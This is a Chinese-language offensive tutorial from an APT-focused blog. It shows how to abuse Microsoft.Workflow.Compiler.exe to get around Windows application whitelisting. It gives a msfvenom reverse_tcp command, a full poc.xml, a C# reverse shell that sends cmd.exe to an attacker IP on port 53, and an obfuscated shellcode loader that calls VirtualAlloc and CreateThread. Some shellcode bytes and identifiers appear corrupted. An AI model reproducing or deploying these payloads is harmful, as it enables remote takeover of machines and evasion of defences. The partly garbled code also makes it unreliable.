




# 专注APT攻击与防御
https://micropoor.blogspot.com/

**注：**请多喝点热水或者凉白开，身体特别重要。

**说明：**Microsoft.Workflow.Compiler.exe所在路径没有被系统添加PATH环境变量中，因此，Microsoft.Workflow.Compiler命令无法识别。

基于白名单Microsoft.Workflow.Compiler.exe配置payload：

Windows 7 默认位置：
`C:\Windows\Microsoft.NET\Framework\v4.0.30319\Microsoft.Workflow.Compiler.exe
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe`

**攻击机：**192.168.1.4 Debian
**靶机：**192.168.1.3 Windows 7

**配置攻击机msf：**


**靶机执行：**
`C:\Windows\Microsoft.NET\Framework\v4.0.30319\Microsoft.Workflow.Compiler.exe poc.xml Micropoor.tcp`




**结合meterpreter：**
**注：payload.cs需要用到System.Workflow.Activities**

**靶机执行：**
`C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe poc.xml Micropoor_rev1.cs`

**配置攻击机msf：**


**payload生成：**
`msfvenom ‐p windows/x64/shell/reverse_tcp LHOST=192.168.1.4 LPORT=53 ‐ f csharp`


## 附录：poc.xml
**注：windows/shell/reverse_tcp**
```
<?xml version="1.0" encoding="utf‐8"?>

<CompilerInput xmlns:i="http://www.w3.org/2001/XMLSchema‐instance" xmlns="http://schemas.datacontract.org/2004/07/Microsoft.Workflow.Compiler"

<files xmlns:d2p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays">

<d2p1:string>Micropoor.tcp</d2p1:string>

</files>

<parameters xmlns:d2p1="http://schemas.datacontract.org/2004/07/System.Workflow.ComponentModel.Compiler">

<assemblyNames xmlns:d3p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />

<compilerOptions i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />

<coreAssemblyFileName xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler"></coreAssemblyFileName>

<embeddedResources xmlns:d3p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />

<evidence xmlns:d3p1="http://schemas.datacontract.org/2004/07/System.Security.Policy" i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />

<generateExecutable xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler">false</generateExecutable>

<generateInMemory xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler">true</generateInMemory>

<includeDebugInformation xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler">false</includeDebugInformation>

<linkedResources xmlns:d3p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />

<mainClass i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />

<outputName xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler"></outputName>

<tempFiles i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />

<treatWarningsAsErrors xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler">false</treatWarningsAsErrors>

<warningLevel xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler">‐1</warningLevel>

<win32Resource i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />

<d2p1:checkTypes>false</d2p1:checkTypes>

<d2p1:compileWithNoCode>false</d2p1:compileWithNoCode>

<d2p1:compilerOptions i:nil="true" />

<d2p1:generateCCU>false</d2p1:generateCCU>

<d2p1:languageToUse>CSharp</d2p1:languageToUse>

<d2p1:libraryPaths xmlns:d3p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays" i:nil="true" />

<d2p1:localAssembly xmlns:d3p1="http://schemas.datacontract.org/2004/07/System.Reflection" i:nil="true" />

<d2p1:mtInfo i:nil="true" />

<d2p1:userCodeCCUs xmlns:d3p1="http://schemas.datacontract.org/2004/07/System.CodeDom" i:nil="true" />

</parameters>

</CompilerInput>
```

**Micropoor.tcp：**
```c#
using System;

using System.Text;

using System.IO;

using System.Diagnostics;

using System.ComponentModel;

using System.Net;

using System.Net.Sockets;

using System.Workflow.Activities; 

public class Program : SequentialWorkflowActivity

{

static StreamWriter streamWriter; 

public Program()

{

using(TcpClient client = new TcpClient("192.168.1.4", 53))

{

using(Stream stream = client.GetStream())

{

using(StreamReader rdr = new StreamReader(stream))

{

streamWriter = new StreamWriter(stream); 

StringBuilder strInput = new StringBuilder(); 

Process p = new Process();

p.StartInfo.FileName = "cmd.exe";

p.StartInfo.CreateNoWindow = true;

p.StartInfo.UseShellExecute = false;

p.StartInfo.RedirectStandardOutput = true;

p.StartInfo.RedirectStandardInput = true;

p.StartInfo.RedirectStandardError = true;

p.OutputDataReceived += new DataReceivedEventHandler(CmdOutputDataHandler);

p.Start();

p.BeginOutputReadLine(); 

while(true)

{

strInput.Append(rdr.ReadLine());

p.StandardInput.WriteLine(strInput);

strInput.Remove(0, strInput.Length);

}

}

}

}

} 

private static void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)

{

StringBuilder strOutput = new StringBuilder(); 

if (!String.IsNullOrEmpty(outLine.Data))

{

try

{

strOutput.Append(outLine.Data);

streamWriter.WriteLine(strOutput);

streamWriter.Flush();

}

catch (Exception err) { }

}

} 

}
```

**Micropoor_rev1.cs：**

**注：x64 payload**

```c#
using System;

using System.Workflow.Activities;

using System.Net;

using System.Net.Sockets;

using System.Runtime.InteropServices;

using System.Threading;

class yrDaTlg : SequentialWorkflowActivity {

[DllImport("kernel32")] private static extern IntPtr VirtualAlloc(UInt32 rCfMkmxRSAakg,UInt32 qjRsrljIMB, UInt32 peXiTuE, UInt32 AkpADfOOAVBZ);

[DllImport("kernel32")] public static extern bool VirtualProtect(IntPt rDStOGXQMMkP, uint CzzIpcuQppQSTBJ, uint JCFImGhkRqtwANx, out uint exgVp Sg);

[DllImport("kernel32")]private static extern IntPtr CreateThread(UInt32 eisuQbXKYbAvA, UInt32 WQATOZaFz, IntPtr AEGJQOn,IntPtr SYcfyeeSgPl, UInt32 ZSheqBwKtDf, ref UInt32 SZtdSB);

[DllImport("kernel32")] private static extern UInt32 WaitForSingleObject(IntPtr KqJNFlHpsKOV, UInt32 EYBOArlCLAM);

public yrDaTlg() {

byte[] QWKpWKhcs =

{0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,

0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,x48,

0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,xc9,

0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,x41,

0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,x48,

0x01,0xd0,0x66,0x81,0x78,0x18,0x0b,0x02,0x0f,0x85,0x72,0x00,0x00,0x00,x8b,

0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,0xd0,0x50,x8b,

0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x48,0xff,0xc9,x41,

0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,xc1,

0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,x45,

0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,0x66,0x41,x8b,

0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,0x88,0x48,x01,

0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,x48,

0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,xe9,

0x4b,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33,0x32,0x00,x00,

0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0,0x01,0x00,0x00,0x49,0x89,xe5,

0x49,0xbc,0x02,0x00,0x00,0x35,0xc0,0xa8,0x01,0x04,0x41,0x54,0x49,0x89,xe4,

0x4c,0x89,0xf1,0x41,0xba,0x4c,0x77,0x26,0x07,0xff,0xd5,0x4c,0x89,0xea,x68,

0x01,0x01,0x00,0x00,0x59,0x41,0xba,0x29,0x80,0x6b,0x00,0xff,0xd5,0x6a,x0a,

0x41,0x5e,0x50,0x50,0x4d,0x31,0xc9,0x4d,0x31,0xc0,0x48,0xff,0xc0,0x48,x89,

0xc2,0x48,0xff,0xc0,0x48,0x89,0xc1,0x41,0xba,0xea,0x0f,0xdf,0xe0,0xff,xd5,

0x48,0x89,0xc7,0x6a,0x10,0x41,0x58,0x4c,0x89,0xe2,0x48,0x89,0xf9,0x41,xba,

0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0x0a,0x49,0xff,0xce,0x75,xe5,

0xe8,0x93,0x00,0x00,0x00,0x48,0x83,0xec,0x10,0x48,0x89,0xe2,0x4d,0x31,xc9,

0x6a,0x04,0x41,0x58,0x48,0x89,0xf9,0x41,0xba,0x02,0xd9,0xc8,0x5f,0xff,xd5,

0x83,0xf8,0x00,0x7e,0x55,0x48,0x83,0xc4,0x20,0x5e,0x89,0xf6,0x6a,0x40,x41,

0x59,0x68,0x00,0x10,0x00,0x00,0x41,0x58,0x48,0x89,0xf2,0x48,0x31,0xc9,x41,

0xba,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x48,0x89,0xc3,0x49,0x89,0xc7,0x4d,x31,

0xc9,0x49,0x89,0xf0,0x48,0x89,0xda,0x48,0x89,0xf9,0x41,0xba,0x02,0xd9,xc8,

0x5f,0xff,0xd5,0x83,0xf8,0x00,0x7d,0x28,0x58,0x41,0x57,0x59,0x68,0x00,x40,

0x00,0x00,0x41,0x58,0x6a,0x00,0x5a,0x41,0xba,0x0b,0x2f,0x0f,0x30,0xff,xd5,

0x57,0x59,0x41,0xba,0x75,0x6e,0x4d,0x61,0xff,0xd5,0x49,0xff,0xce,0xe9,x3c,

0xff,0xff,0xff,0x48,0x01,0xc3,0x48,0x29,0xc6,0x48,0x85,0xf6,0x75,0xb4,x41,

0xff,0xe7,0x58,0x6a,0x00,0x59,0x49,0xc7,0xc2,0xf0,0xb5,0xa2,0x56,0xff,xd5};

IntPtr AmnGaO = VirtualAlloc(0, (UInt32)QWKpWKhcs.Length, 0x3000, 0x04);

Marshal.Copy(QWKpWKhcs, 0, (IntPtr)(AmnGaO), QWKpWKhcs.Length);

IntPtr oXmoNUYvivZlXj = IntPtr.Zero; UInt32 XVXTOi = 0; IntPtr pAeCTf wBS = IntPtr.Zero;

uint BnhanUiUJaetgy;

bool iSdNUQK = VirtualProtect(AmnGaO, (uint)0x1000, (uint)0x20, out BnhanUiUJaetgy);

oXmoNUYvivZlXj = CreateThread(0, 0, AmnGaO, pAeCTfwBS, 0, ref XVXTOi);

WaitForSingleObject(oXmoNUYvivZlXj, 0xFFFFFFFF);}

}
```